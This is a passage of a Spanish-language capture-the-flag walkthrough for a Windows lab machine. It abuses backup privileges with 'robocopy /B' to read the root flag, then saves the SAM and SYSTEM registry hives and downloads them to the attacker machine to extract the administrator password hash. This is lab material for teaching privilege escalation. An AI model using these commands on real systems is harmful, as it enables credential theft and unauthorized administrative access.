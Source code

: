 Bajo este orden de ideas, podemos copiar la flag de root en nuestra carpeta de escritorio del usuario con el que estamos autenticados, para que este archivo adquiera permisos de escritura para este usuario y poder leerla.

Utilizamos `robocopy` (función para copiar archivos de manera eficaz, con varios parámetros y opciones en sistemas Windows) y con el uso del parámetro `/B` (Backup Mode) abusamos del privilegio del usuario, ya que este parámetro hace uso de este privilegio al hacer una copia de seguridad del archivo, ignorando los permisos de acceso normales:

```
robocopy C:\Users\Administrator\Desktop C:\Users\emily.oscars.CICADA\Desktop root.txt /B
```

![12](./assets/12.png)

De esta manera, el archivo obtiene los permisos de la carpeta de nuestro usuario, lo que nos permite leer el archivo normalmente y por ende la flag de root!! 🐇

### Escalamiento de privilegios

Si queremos obtener una shell como root, podemos aprovechar nuestro privilegio de leer cualquier archivo para obtener el hash de administrador y loguearnos con él, de la siguiente manera:

Primero hacemos una copia de la subclave SAM (Security Account Manager) de registro de la raíz `HKLM` (HKEY_LOCAL_MACHINE), donde se encuentran los hashes de las contraseñas de los usuarios locales:

```
reg save hklm\sam C:\temp\sam.hive
```

Luego, copiamos la clave `SYSTEM` del mismo `HKLM`, donde se encuentran los valores de cifrado necesarios para descifrar los hashes de las contraseñas contenidos en el SAM anteriormente copiado:

```
reg save hklm\system C:\temp\system.hive
```

Ahora, los pasamos a nuestra máquina atacante con el comando `download`:

```
download sam.hive
download system.hive
```
